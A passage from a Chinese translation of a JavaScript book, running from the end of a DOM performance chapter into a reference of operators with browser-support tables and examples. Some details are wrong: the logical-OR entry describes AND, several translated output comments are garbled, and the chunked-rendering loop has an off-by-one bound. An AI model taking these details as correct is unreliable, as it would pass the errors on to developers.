var newBoxWidth = (cachedWidth / cachedHeight) * newHeight;
var newBoxHeight = (cachedHeight / cachedWidth) * newWidth;
```

这对于重复操作特别为重要。

## 使用文档片段

在第 13 章中，我提到使用 `DocumentFragment` 元素作为多个 DOM 更改的容器，然后将片段添加到 DOM 中，这比直接对 DOM 本身进行相同的更改要高效得多。这是因为你避免了所有可能在 DOM 上产生的重流。这与之前提到的 `display:none` 技巧类似。

## 耗时任务的线程

想象一下，你发送了一个 Ajax 请求来更新页面上的 HTML 数据网格。进一步假设返回的数据包含了 10,000 行需要渲染的信息。你可以像这样一次性渲染它们：

```javascript
var aFragment = document.createDocumentFragment();

for (var i = 0; i < dataset.length; i++) {
    var newParagraph = document.createElement("p");
    newParagraph.innerHTML = dataset[i].cols[0] + "," + dataset[i].cols[1] + "," + dataset[i].cols[2];
    aFragment.appendChild(newParagraph);
}

document.body.appendChild(aFragment);
```

尽管你尽了努力并勤奋地使用了 `DocumentFragment`，但你的用户仍然在抱怨，因为渲染完成需要超过 20 秒的时间。你根本无办法让它变得更快；你已经触及了浏览器性能的上限。回到本章开头提到的某些内容，有时感知性能与速度之间并不直接相关。在第 16 章中，我引入了“伪线程”，它本质上利用系统计时器在时间范围内分配某些任务的工作负载。通过将渲染这些行的活动移动到线程中，你可以避免因锁定浏览器 20 秒而带来的糟糕用户体验影响：

```javascript
var renderedRow = 0;

function renderBlock() {
    var aFragment = document.createDocumentFragment();

    for (var i = renderedRow; i < renderedRow + 20; i++) {
        if (dataset.length >= i) {
            var newParagraph = document.createElement("p");
            newParagraph.innerHTML = dataset[i].cols[0] + "," + dataset[i].cols[1] + "," + dataset[i].cols[2];
            aFragment.appendChild(newParagraph);
        }
    }

    document.body.appendChild(aFragment);

    // 调整 renderedRow 的新索引
    renderedRow += 20;

    // 一会儿后再次执行
    if (dataset.length > renderedRow)
        setTimeout(renderBlock, 500);
}

// 启动运行
renderBlock();
```

现在渲染所有数据可能需要接近 30 或 40 秒，但你的用户不会察觉，因为他们只会看到数据立即出现在页面上。你成功地通过降低实际性能来提高了感知性能。这种技术可以应用于任何可能导致浏览器在一段时间内被用户察觉的耗时任务。

## 总结

在最后一个章节中，我涵盖了大量内容。你学习了关于构建更快的 Web 应用程序通用知识，然后学习了如何通过一些非常特定、针对性的方法加速你的 JavaScript。具体来说，我谈到了：

*   页面权重是完成页面所需下载的所有资源的函数。
*   页面权重不是决定下载时间的唯一因素。需要下载的资源数量和连接延迟也起着作用。浏览器还允许对特定主机建立有限的并发连接，这防止了它们尝试一次下载所有资源。
*   你学习了多种可以显著减少页面权重和下载时间的技术。这些包括 JavaScript 文件的延迟加载、缓存、精灵、JavaScript 压缩和合并、gZip 压缩以及如 `S3` 或 `Akamai` 等内容分发网络。
*   代码分析可以揭示程序中的性能瓶颈。大多数浏览器都有非常出色的性能分析工具。你学习了 `Firebug` 和微软的 `JScript` 代码分析器。
*   你学习了优化 JavaScript 代码性能的几种最佳实践。其中一些技术包括删除未使用的对象；尽可能避免使用 `eval()`；使用局部变量而非全局变量；缓存函数和对象引用；避免使用 `with` 和 `try..catch`（特别是在重复代码段中）；以及调整循环以避免不必要的处理。
*   我还简要谈了 DHTML 优化以及你可以减少脚本中发生重流次数的方法。其中一些方法包括将元素临时设置为 `display:none`、将 DOM 和 CSS 更改分组、避免重复测量 DOM 元素的几何形状，以及进行多次 DOM 更改时使用文档片段作为中间人。
*   你在第 16 章学习的伪线程技术也适用于将耗时操作（如大量的 DOM 更改）分布在时间上。这可以在牺牲总执行时间的同时，保持页面对用户的交互性。

到此，本书的教程部分结束了。后面是一系列大量的语言和 DOM 参考，你可以在开发时翻阅它们以检查浏览器兼容性、命名和语法。此外，请务必参考附录 G 中的网络语言资源列表。我衷心希望你从这本书中有所收获。如果你像我一样喜欢 JavaScript，你无疑想在网上继续你的学习。有很多与 JavaScript 和 Ajax 优秀博客和新闻网站。

# JavaScript 核心语言

本节将提供语言所有基本特征的概述，包括运算符、语句和注释。此附录对应第 3 和第 4 章。

# JavaScript 运算符

运算符是一种对值执行操作的内置函数类型。JavaScript 运算符与数学运算符非常相似，多了一些赋值运算符。例如，`1+3-2` 在 JavaScript 中的含义与数学中相同，运算符 `+` 和 `-` 分别表示加法和减法。JavaScript 支持广泛的运算符，某些运算符是重载的，这意味着它们根据所使用的上下文会执行不同的操作。本节按功能对 JavaScript 运算符进行了分组。

## * (乘法)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 * numVal2`
**描述:** 将左操作数乘以右操作数。如果其中一个是字符串，则会先将其转换为数字。
**示例:**
```javascript
<script>
// 创建一个包含数字的字符串值。
var val1 = "3";
// 创建一个浮点字面量
var val2 = 1000.21;
// 我们将它们相乘。JavaScript 将尝试将第一个值解释为数字。
// 变量 answer 将等于 3000.63
var answer = val1 * val2;
// 输出结果
document.write(answer); // 3000.63
</script>
```

## + (加法)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 + numVal2`
**描述:** 当两个值都是数值时，这两个值将相加在一起。
**示例:**
```javascript
<script>
// 创建一个包含数字的字符串值。为了说明目的，我们从一个字符串开始。
// 字符串必须预先转换为数字，因为它可能会被解释为字符串拼接
var val1 = parseInt("2213");
// 创建一个浮点字面量
var val2 = 1000.21;
// 将一个加到另一个上。JavaScript 将尝试将第一个值解释为数字。
// 变量 answer 将等于 3213.21
var answer = val1 + val2;
// 输出结果
document.write(answer); // 3213.21
</script>
```

## ++ (自增)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:**
```javascript
// 前增
++numval
// 后增
numval++
```
**描述:** 在操作中使用数值值之前或之后，向该数值加 1。
**示例:**
```javascript
<script>
// 我们从初始值 100 开始
var myNum = 100;
// 现在我们执行后增
document.write(myNum++ + "<br />"); // 100
// 值没有变化，但现在我们立即进行测量
document.write(myNum + "<br />"); // 101
// 现在我们执行前增
document.write(++myNum + "<br />") // 102
// 并且确认了这就是最终值
document.write(myNum + "<br />"); // 102
</script>
```

## - (减法)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `val1 - val2`
**描述:** 当两个值都是数值时，从第一个值中减去第二个值。大多数浏览器都会尝试将任意一边的字符串解析为数值值。尽管如此，最好预先对字符串值使用 `parseInt()` 或 `parseFloat()` 将其强制转换为数值值。注意，一元否定和减法在功能上是相同的。一元否定只是减法运算符的一个特定用例。
**示例:**
```javascript
<script>
// 创建一个包含数字的字符串值
var val1 = "2213";
// 创建一个浮点字面量
var val2 = 1000.21;
// 用另一个值减去一个。JavaScript 将尝试将第一个值解释为数字。
// 变量 answer 将等于 1212.79
var answer = val1 - val2;
// 输出结果
document.write(answer); // 1212.79
</script>
```

## - (一元否定)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `-numval`
**描述:** 改变数值值的符号（取反）。`-1` 变为 `1`，`2.31` 变为 `-2.31` 等。当用于字符串时，该值会先转换为数字。
**示例:**
```javascript
<script>
// 我们从初始值 100 开始
var myNum = 100;
// 现在我们使用一元否定在操作期间临时修改我们的数字
document.write(-myNum); // -100
</script>
```

## -- (自减)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:**
```javascript
// 前减
--numval
// 后减
numval--
```
**描述:** 在操作中使用数值之前或之后，从该数值减去 1。
**示例:**
```javascript
<script>
// 我们有一个初始值 100
var myNum = 100;
// 现在我们执行后减
document.write(myNum-- + "<br />"); // 100
// 值没有变化但现在我们之后立即测量
document.write(myNum + "<br />"); // 99
// 现在我们执行前减
document.write(--myNum + "<br />"); // 98
// 并且确认这就是最终值
document.write(myNum + "<br />"); // 98
</script>
```

## / (除法)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `val1 / val2`
**描述:** 左操作数除以右操作数。如果右操作数是字符串，它会被转换为数字。
**示例:**
```javascript
<script>
// 创建一个包含数字的字符串
var val1 = "2213";
// 创建一个浮点字面量
var val2 = 1000.21;
// 我们将它们相除。JavaScript 将尝试将第一个值解释为数字。
// 变量 answer 将等于 2.2
var answer = val1 / val2;
// 输出结果
document.write(answer); // 2.2
</script>
```

## 赋值运算符

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `variable = expression`
**描述:** 将右侧表达式的结果赋值给左侧变量。
**示例:**
```javascript
<script>
var x = 10;
x = 20;
document.write(x); // 20
</script>
```

## 复合赋值运算符

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `variable operator= expression`
**描述:** 将指定的运算符应用于变量和表达式，并将结果赋值回该变量。
**示例:**
```javascript
<script>
var x = 10;
x += 5; // 等同于 x = x + 5
document.write(x); // 15
x -= 3; // 等同于 x = x - 3
document.write(x); // 12
x *= 2; // 等同于 x = x * 2
document.write(x); // 24
x /= 4; // 等同于 x = x / 4
document.write(x); // 6
x %= 4; // 等同于 x = x % 4
document.write(x); // 2
x &= 1; // 等同于 x = x & 1
document.write(x); // 0
x |= 1; // 等同于 x = x | 1
document.write(x); // 1
x <<= 2; // 等同于 x = x << 2
document.write(x); // 4
x >>= 1; // 等同于 x = x >> 1
document.write(x); // 2
x >>>= 1; // 等同于 x = x >>> 1
document.write(x); // 1
</script>
```

## +=

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `var1 += var2`
**描述:** 根据操作数是否为数字提供两种类型的功能。对于数字，将两个值相加，并将结果存入左侧操作数中。对于字符串，将值进行拼接并存入左侧操作数中。对于其他数据类型，将对象转换为数字并求和。
**示例:**
```javascript
<script>
// 这里是赋值运算符的测试
var a = 10;
a += 15;
document.write(a); // 25
</script>
```

## -= (减赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `variable -= value`
**描述:** 从第一个操作数中减去第二个操作数，并将结果存在第一个操作数中。
**示例:**
```javascript
<script>
// 这里是赋值运算符的测试
var a = 10;
a -= 15;
document.write(a); // -5
</script>
```

## /= (除赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 /= numVal2`
**描述:** 左操作数除以右操作数，并将结果存入左操作数中。
**示例:**
```javascript
<script>
// 这里是赋值运算符的测试
var a = 100;
a /= 20; // 等于 (a = a / 20)
document.write(a); // 5
</script>
```

## <<= (左移赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 <<= numVal2`
**描述:** 对两个操作数进行位左移，并将结果存入第一个操作数中。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
//  7 = 00000000000000000000000000000111
// 28 = 00000000000000000000000000011100
var a = 7;
a <<= 2;
document.write(a); // 28
</script>
```

## = (赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `variable = value`
**描述:** 运算符右侧的值被存入左侧的变量中。
**示例:**
```javascript
<script>
// 我们使用赋值变量将各种类型赋值给变量
var a = 100.1;    // 一个 Number
document.write("a== " + a + ", typeof " + (typeof a) + ".<br />");
// a == 100.1, typeof number.
var b = {alpha:true,beta:[23,44,58], gamma:34.32};
document.write("b== " + b.toString() + ", typeof " + (typeof b) + ".<br />");
// b == [object Object], typeof object.
// 制作 b 的拷贝
var c = b;
document.write("c== " + c.toString() + ", typeof " + (typeof c) + ".<br />");
// c == [object Object], typeof object.
// 修改 b
b = 21;
// 现在我们测试 c 是否仍然相同
document.write("c== " + c.toString() + ", typeof " + (typeof c) + ".<br />");
// c == [object Object], typeof object.
</script>
```

## >>= (带符号的右移赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 >>= numVal2`
**描述:** 对两个操作数进行右移，并将结果存入第一个操作数中。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 28 = 00000000000000000000000000011100
//  7 = 00000000000000000000000000000111
var a = 28;
a >>= 2;
document.write(a); // 7
</script>
```

## >>>= (无符号右移赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 >>>= numVal2`
**描述:** 对两个操作数进行无符号右移，并将结果存入第一个操作数中。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 28 = 00000000000000000000000000011100
//  7 = 00000000000000000000000000000111
var a = 28;
a >>>= 2;
document.write(a); // 7
</script>
```

## ^= (异或赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `myNumVal ^= numVal`
**描述:** 对两个操作数进行位异或，并将结果存入左侧。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 6 = 00000000000000000000000000000110
// 3 = 00000000000000000000000000000011
// 5 = 00000000000000000000000000000101
var a = 6;
a ^= 3;
document.write(a); // 5
</script>
```

## |= (位或赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 |= numVal2`
**描述:** 对两个操作数进行位或，并将结果存入左侧操作数中。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 9 = 00000000000000000000000000001001
// 5 = 00000000000000000000000000000101
// 13 = 00000000000000000000000000001101
var a = 9;
a |= 5;
document.write(a); // 13
</script>
```

## 位运算符列表

### & (位与)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numval1 & numval2`
**描述:** 将每个表达式转换为 32 位二进制数，并在两个操作数的对应位均为 1 的每个位上返回 1。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 11 = 00000000000000000000000000001011
// 6 = 00000000000000000000000000000110
// 2 = 00000000000000000000000000000010
var a = 11 & 6;
document.write(a); // 2
</script>
```

### << (左移)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 << numVal2`
**描述:** 将操作数在二进制表示中向左移动 `numVal2` 位，丢弃溢出的位。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 7 = 00000000000000000000000000000111
// 28 = 00000000000000000000000000011100
var a = 7 << 2;
document.write(a); // 28
</script>
```

### >> (带符号的右移)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 >> numVal2`
**描述:** 将操作数在二进制表示中向右移动 `numVal2` 位，丢弃溢出的位。
**示例:**
```javascript
<script>
// 这里是数字的 32 位表示法
// 28 = 00000000000000000000000000011100
// 7 = 00000000000000000000000000000111
var a = 28 >> 2;
document.write(a); // 7
</script>
```

### >>> (无符号右移)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 >>> numVal2`
**描述:** 将 `numVal1` 的二进制表示向右移动 `numVal2` 位，丢弃移出的位，并在左侧补零。
**示例:**
```javascript
<script>
// Here is a 32 bit representation of numbers
// 28 = 00000000000000000000000000011100
//  7 = 00000000000000000000000000000111
var a = 28 >>> 2;
document.write(a); // 7
</script>
```

### ^ (按位异或)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 ^ numVal2`
**描述:** 将两个值都转换为 32 位数字，并对于两个操作数中其中一个为 1 而另一个不为 1 的每个对应的位返回 1。
**示例:**
```javascript
<script>
// Here is a 32 bit representation of numbers
//  6 = 00000000000000000000000000000110
//  3 = 00000000000000000000000000000011
//  5 = 00000000000000000000000000000101
var a = 6 ^ 3;
document.write(a); // 5
</script>
```

### | (按位或)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 | numVal2`
**描述:** 将两个值都转换为 32 位数字，并对于两个操作数中任一或都为 1 的每个对应的位返回 1。
**示例:**
```javascript
<script>
// Here is a 32 bit representation of numbers
//  9 = 00000000000000000000000000001001
//  5 = 00000000000000000000000000000101
// 13 = 00000000000000000000000000001101
var a = 9 | 5;
document.write(a); // 13
</script>
```

### ~ (按位取反)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `~numVal`
**描述:** 反转操作数的位。1 变成 0，0 变成 1。
**示例:**
```javascript
<script>
// Here is a 32 bit representation of numbers
//  2 = 00000000000000000000000000000010
// -3 = 11111111111111111111111111111101
// -2 = 11111111111111111111111111111110
// -1 = 11111111111111111111111111111111
var a = ~2;
document.write(a); // -3
</script>
```

## 比较

### != (不等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `expressionA != expressionB`
**描述:** 不等于运算符比较两个表达式，如果它们相等则返回布尔 false，否则返回 true。
**示例:**
```javascript
<script>
if ("1001" != 1001) {
    document.write("They are not equivalent.");
} else {
    document.write("The string and numeric values 1001 are equivalent.");
}
// 输出:
// 字符串和数字 1001 是等的。
</script>
```

### !== (严格不等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `expressionA !== expressionB`
**描述:** 严格不等于运算符比较两个表达式是否相等。如果相等返回布尔 false，否则返回 true。
**示例:**
```javascript
<script>
// 使用严格性时，"1001" 不转换为数字
// 所以比较将失败
if ("1001" !== 1001) {
    document.write("They are not identical.");
} else {
    document.write("The string and numeric values 1001 are equivalent.");
}
// 输出:
// true 是不相同的。
</script>
```

### < (小于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 < numVal2`
**描述:** 如果左侧操作数小于右侧则返回 true。否则返回 false。
**示例:**
```javascript
<script>
if ("999" < 1000) {
    document.write("999 is less than 1000.");
} else {
    document.write("The comparison failed.");
}
// 输出:
// 999 小于 1000。
</script>
```

### <= (小于或等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 <= numVal2`
**描述:** 如果两个操作数都是数字，则第一个操作数小于或等于第二个时返回 true。如果两个操作数都是字符串，则对它们进行字母顺序比较并执行相同的操作。
**示例:**
```javascript
<script>
if ("999" <= 1000) {
    document.write("999 is less than or equal to 1000.");
} else {
    document.write("The comparison failed.");
}
// 输出:
// 999 小于或等于 1000。
</script>
```

### == (等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `expressionA == expressionB`
**描述:** 比较两个操作数判断它们是否包含相等的值。返回 true 或 false。
**示例:**
```javascript
<script>
if ("1001" == 1001) {
    document.write("The string and numeric values 1001 are equivalent.");
} else {
    document.write("They are not equivalent.");
}
// 输出:
// 字符串和数字 1001 是等的。
</script>
```

### === (严格等于)

**标准:** `JavaScript 1.3+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 4.0+`, `Opera 6.0+`, `Safari 1.0+`
**语法:** `expressionA === expressionB`
**描述:** 比较两个操作数判断它们是否包含相同的值。首先不会进行类型转换。
**示例:**
```javascript
<script>
// 使用严格性时，"1001" 不转换为数字
// 所以比较将失败
if ("1001" === 1001) {
    document.write("The string and numeric values 1001 are equivalent.");
} else {
    document.write("They are not identical.");
}
// 输出:
// true 是不相同的。
</script>
```

### > (大于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 > numVal2`
**描述:** 如果左侧操作数大于右侧则返回 true。否则返回 false。
**示例:**
```javascript
<script>
if ("1001" > 1000) {
    document.write("1001 is greater than 1000.");
} else {
    document.write("The comparison failed.");
}
// 输出:
// 1001 大于 1000。
</script>
```

### >= (大于或等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `numVal1 >= numVal2`
**描述:** 如果两个操作数都是数字，则第一个操作数大于或等于第二个时返回 true。如果两个操作数都是字符串，则对它们进行字母顺序比较并执行相同的操作。
**示例:**
```javascript
<script>
if ("1001" >= 1000) {
    document.write("1001 is greater than or equal to 1000.");
} else {
    document.write("The comparison failed.");
}
// 输出:
// 1001 大于或等于 1000。
</script>
```

## 逻辑

### ! (逻辑非)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `!operand`
**描述:** 假设该值为布尔值，`!` 会对该值取反。如果该值不是布尔值，它会先将其转换为布尔值。
**示例:**
```javascript
<script>
var firstVal = 0;
var secondVal = !firstVal;
document.write(firstVal + " , " + secondVal + " <br />"); // 0, true
</script>
```

### && (逻辑与)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `expressionA && expressionB`
**描述:** 比较每个表达式，如果两个都为 true 则返回 true，如果其中一个为 false 则返回 false。
**示例:**
```javascript
<script>
// 在此语句中，我们使用 && 逻辑与来设置两个条件。
// 只有第一个条件会被执行，因为它会失败，引擎不需要
// 继续执行其他条件。我们知道这一点是因为，如果评估了第二个条件，
// 它将改变 myVal 的值。
var myVal = 5;
if ((myVal > 6) && (myVal = 10)) {
    document.write("条件通过了，且 myVal 现在应该等于 10: " + myVal);
}
document.write(myVal); // 5
</script>
```

### || (逻辑或)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `expressionA || expressionB`
**描述:** 如果两个操作数都为 true 则返回 true，如果其中一个为 false 则返回 false。
**示例:**
```javascript
<script>
// 在此语句中，我们使用 || 逻辑或来设置两个条件。
// 只有第一个条件会被执行，因为它通过了，且引擎不需要
// 继续执行其他条件。我们知道这一点是因为，如果评估了第二个条件，
// 它将改变 myVal 的值。
var myVal = 5;
if ((myVal > 4) || (myVal = 10)) {
    document.write("条件通过了，且 myVal 现在应该等于 5: " + myVal);
}
</script>
```

## 字符串

### != (不等于)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 != string2`
**描述:** 比较两个操作数，如果操作数不包含相同的字符串，则返回 true。
**示例:**
```javascript
<script>
// 我们可以使用两种字符串字面量
if ("firstly" != String("firstly")) {
    document.write("字符串不相同。");
} else {
    // 这将执行
    document.write("字符串相同。");
}
</script>
```

### + (连接)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 + string2`
**描述:** 按照操作符两侧字符串的出现顺序连接这些字符串。
**示例:**
```javascript
<script>
// 创建一个连接后的字符串
var myStr = "Alexei" + "Robert" + "White";
document.write(myStr);
</script>
```

### += (连接赋值)

**标准:** `JavaScript 1.0+`, `JScript 1.0+`, `ECMAScript 1.0+`
**支持:** `Google Chrome Beta+`, `Firefox 1.0 (Gecko 1.7)+`, `Internet Explorer 3+`, `Netscape Navigator 2.0+`, `Opera 3.0+`, `Safari 1.0+`
**语法:** `string1 += string2`
